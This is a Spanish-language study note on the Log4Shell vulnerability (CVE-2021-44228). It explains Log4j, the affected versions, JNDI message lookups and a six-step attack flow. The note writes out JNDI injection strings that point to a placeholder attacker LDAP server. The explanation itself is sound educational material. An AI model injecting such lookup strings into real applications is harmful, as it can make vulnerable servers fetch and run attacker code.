 
# Log4Shell (CVE-2021-44228): Ejecución Remota de Código por Inyección JNDI

Este apunte explica la vulnerabilidad crítica **Log4Shell** (CVE-2021-44228), una vulnerabilidad de ejecución remota de código (RCE) que afecta a la librería de logging Apache Log4j. Detalla cómo se produce la explotación a través de la inyección JNDI y el uso de herramientas para lograr RCE en aplicaciones vulnerables.

---

## ¿Qué es Apache Log4j?

**Apache Log4j** es una librería de código abierto escrita en Java, ampliamente utilizada en aplicaciones y servicios de todo el mundo para registrar información. Este registro es esencial para la depuración, auditoría y monitoreo del rendimiento de las aplicaciones. Debido a su vasta adopción, Log4j es un componente fundamental en muchas infraestructuras tecnológicas modernas, desde aplicaciones web hasta servicios empresariales y software de terceros.

---

## La Vulnerabilidad: Log4Shell (CVE-2021-44228)

La vulnerabilidad **Log4Shell** (CVE-2021-44228) afecta a las versiones de Log4j 2.0-beta9 hasta la 2.14.1. El problema reside en la funcionalidad de "Message Lookup Substitution" (sustitución de búsqueda de mensajes) de Log4j.

Log4j permite a los mensajes de log incluir "Lookups", que son mecanismos para recuperar valores dinámicos de diferentes fuentes. Una de estas fuentes es **JNDI (Java Naming and Directory Interface)**. JNDI es una API de Java que permite a las aplicaciones buscar recursos (objetos y datos) distribuidos en una red, como directorios LDAP, servicios de nombres RMI, etc.

La explotación de Log4Shell ocurre cuando un atacante puede inyectar una cadena de texto maliciosa que contiene una JNDI Lookup (por ejemplo, `${jndi:ldap://[servidor-atacante]/clase_maliciosa}`). Si esta cadena es procesada por Log4j (por ejemplo, al ser registrada en un log), el servidor vulnerable intentará realizar una conexión al servidor especificado en la URL JNDI (un servidor LDAP o RMI controlado por el atacante).

Cuando el servidor vulnerable se conecta a este servidor malicioso, el atacante puede responder con una referencia a una clase Java remota. El servidor vulnerable intenta entonces descargar y deserializar esta clase Java. Si la clase Java es maliciosa, su deserialización puede llevar a la **ejecución de código arbitrario** en el sistema del servidor, con los mismos privilegios que la aplicación vulnerable de Log4j.

**Flujo simplificado del ataque Log4Shell:**

1.  **Inyección:** Un atacante inyecta una cadena maliciosa (ej., `${jndi:ldap://[IP_ATACANTE]:[PUERTO_LDAP]/[REFERENCIA]}`) en un campo de entrada de una aplicación.
2.  **Logging:** La aplicación vulnerable usa Log4j para registrar esta entrada (ej., en un log de errores o acceso).
3.  **JNDI Lookup:** Log4j procesa la cadena y, al reconocer la sintaxis JNDI, intenta realizar una consulta al servidor especificado en la URL.
4.  **Conexión Externa:** El servidor vulnerable establece una conexión (ej., LDAP) con el servidor del atacante.
5.  **Payload Servido:** El servidor del atacante responde con una referencia a un objeto/clase Java malicioso.
6.  **Carga y Ejecución:** El servidor vulnerable intenta descargar y deserializar la clase Java. Si tiene éxito, el código malicioso contenido en la clase se ejecuta, logrando RCE.

---